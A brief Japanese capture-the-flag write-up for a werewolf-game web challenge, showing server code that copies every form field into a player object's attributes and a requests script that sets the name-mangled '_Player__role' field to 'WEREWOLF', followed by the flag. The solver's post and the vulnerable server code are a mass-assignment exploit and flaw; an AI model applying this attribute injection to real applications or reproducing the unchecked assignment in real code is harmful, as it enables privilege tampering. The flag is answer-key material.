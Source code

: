 # writeup

配布されたpythonのコードを読み込む

```python
class Player:
    def __init__(self):
        self.name = None
        self.color = None
        self.__role = random.choice(['VILLAGER', 'FORTUNE_TELLER', 'PSYCHIC', 'KNIGHT', 'MADMAN', 'WEREWOLF'])
```
```python
for k, v in request.form.items():
    player.__dict__[k] = v

```
上記のPlayerクラスのプライベート関数の__roleを手に入れたい  
[Pythonのプライベート変数の振る舞いについて](https://qiita.com/marmalade_boy/items/dd78c460ceb639c023ad)

こちらを読んで理解したので回答のコードを書く

<details><summary>コード</summary><div>
    
```python
import requests

def request():
    data = {
        'name': 'test',
        'color': 'YELLO',
        '_Player__role': 'WEREWOLF'
    }
    
    req = requests.post('{url}', data=data)
    body = req.content.decode()
    print(body)
    
if __name__ == '__main__':
    request()
```
<div>
</details>

<details><summary>flag</summary><div>
ctf4b{there_are_so_many_hackers_among_us}
</div></details>
